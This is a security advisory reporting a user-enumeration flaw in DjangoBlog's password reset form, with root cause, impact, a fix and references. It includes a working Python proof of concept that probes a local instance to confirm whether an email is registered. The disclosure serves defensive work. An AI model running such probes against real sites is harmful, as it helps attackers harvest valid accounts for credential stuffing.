

# Vuln-9: User Enumeration via Password Reset

**Project:** DjangoBlog (https://github.com/liangliangyy/DjangoBlog)
**Version:** Latest master (commit `06f76ea`)
**Date:** 2026-03-14
**Severity:** MEDIUM
**OWASP:** A07:2021 - Identification and Authentication Failures
**CWE:** CWE-204 - Observable Response Discrepancy

---

## Affected File

```
accounts/forms.py (lines 94-101)
```

## Root Cause

The password reset form returns a distinct error message when the submitted email address does not exist in the database, allowing an attacker to determine which email addresses are registered.

## Steps to Reproduce

```python
python3 -c "
import requests
s = requests.Session()
s.get('http://127.0.0.1:18000/forget_password/')
csrf = s.cookies.get('csrftoken', '')
resp = s.post('http://127.0.0.1:18000/forget_password/', data={
    'email': 'nonexist_999@test.com',
    'new_password1': 'Test123456!',
    'new_password2': 'Test123456!',
    'code': '000000',
    'csrfmiddlewaretoken': csrf
}, headers={'Referer': 'http://127.0.0.1:18000/forget_password/'})
if '邮箱不存在' in resp.text or 'does not exist' in resp.text:
     print('[VERIFIED] 响应明确提示邮箱不存在，可用于用户枚举')
else:
     print('未匹配，响应片段:', resp.text[2000:2500])
"
```


## Impact

Attackers can enumerate valid registered email addresses, enabling targeted brute force or credential stuffing attacks.

## Recommended Fix

Return a generic message (e.g., "If this email exists, you will receive a reset link") regardless of whether the email is registered.

---

## References

- [OWASP Top 10 (2021)](https://owasp.org/Top10/)
- [CWE-204: Observable Response Discrepancy](https://cwe.mitre.org/data/definitions/204.html)
- [Django Security Best Practices](https://docs.djangoproject.com/en/stable/topics/security/)
- DjangoBlog source: https://github.com/liangliangyy/DjangoBlog
